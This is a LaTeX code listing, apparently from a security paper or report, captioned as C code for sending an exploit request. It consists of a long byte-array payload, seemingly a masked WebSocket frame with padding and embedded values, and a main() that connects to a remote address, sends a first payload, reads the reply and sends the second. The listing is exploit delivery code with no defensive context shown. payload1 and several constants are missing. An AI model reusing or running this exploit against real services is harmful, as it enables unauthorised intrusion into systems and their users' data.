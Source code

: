 \begin{lstlisting}[language=c,label={lst:cExploitCode},caption={C code for execptunig the exlpoit request}]
char payload2[] = { 
0x81, 0xfe, 0x01, 0x6a, 0x15, 0x2a, 0x61, 0xcd, 
0x6e, 0x08, 0x0b, 0xbe, 0x7a, 0x44, 0x13, 0xbd, 
0x76, 0x08, 0x5b, 0xef, 0x27, 0x04, 0x51, 0xef, 
0x39, 0x08, 0x0c, 0xa8, 0x61, 0x42, 0x0e, 0xa9, 
0x37, 0x10, 0x43, 0x8b, 0x67, 0x45, 0x0f, 0xb9, 
0x70, 0x44, 0x05, 0xf7, 0x2f, 0x6d, 0x04, 0xb9, 
0x53, 0x58, 0x0e, 0xa3, 0x61, 0x4f, 0x0f, 0xa9, 
0x46, 0x5a, 0x04, 0xae, 0x61, 0x58, 0x14, 0xa0, 
0x51, 0x4b, 0x15, 0xac, 0x37, 0x06, 0x43, 0xbd, 
0x74, 0x58, 0x00, 0xa0, 0x66, 0x08, 0x5b, 0xb6, 
0x37, 0x49, 0x0e, 0xbf, 0x70, 0x63, 0x25, 0xef, 
0x2f, 0x1a, 0x4d, 0xef, 0x73, 0x79, 0x15, 0xac, 
0x67, 0x5e, 0x29, 0xb7, 0x37, 0x10, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0xe1, 0xe5, 0x11, 0x5e, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0xe1, 0x23, 0x43, 0x56, 0x20, 0x8c, 
0x54, 0x6b, 0xe1, 0xe8, 0xf9, 0xfa, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0xe1, 0xc7, 0xb5, 0xba, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0xe1, 0x23, 0x43, 0x56, 0x4d, 0xef, 
0x72, 0x4b, 0x08, 0xa3, 0x37, 0x10, 0x50, 0xb0, 
0x39, 0x08, 0x08, 0xa9, 0x37, 0x10, 0x43, 0xfd, 
0x37, 0x57 };

int main(int argc, char *argv[])
{
    struct sockaddr_in sa;
    int s;

    char *buf = calloc(BUF_SIZE, sizeof(char));

    int payload1Lenght = sizeof(payload1);
    int payload2Lenght = sizeof(payload2);

    sa.sin_family = AF_INET;
    sa.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
    sa.sin_port = htons(REMOTE_PORT);

    s = socket(AF_INET, SOCK_STREAM, 0);
    connect(s, (struct sockaddr *)&sa, sizeof(sa));
    send(s, payload1, payload1Lenght, 0);
    recv(s, buf, BUF_SIZE, 0);

    send(s, payload2, payload2Lenght, 0);

    close(s);
    return 0;
}
\end{lstlisting}

